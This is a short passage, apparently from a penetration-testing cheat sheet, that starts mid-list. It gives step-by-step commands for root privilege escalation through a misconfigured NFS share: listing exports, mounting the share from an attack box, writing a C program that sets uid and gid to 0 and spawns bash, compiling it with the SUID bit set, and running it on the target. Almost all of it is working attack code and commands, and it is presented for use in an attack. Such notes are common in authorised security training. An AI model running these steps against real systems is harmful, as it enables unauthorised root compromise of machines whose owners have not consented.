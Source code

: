 `showmount -e`

2. Mount share (on ATTACKBOX):

`mkdir /tmp/mount; mount -o rw <target>:/path/to/share`

3. Create a simple C shell (on ATTACKBOX):

```
int main() {
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

4. Compile and set SUID bit (on ATTACKBOX):

```
gcc shell.c -o shell
chmod u+s shell
```

5. Run SUID shell on TARGET!
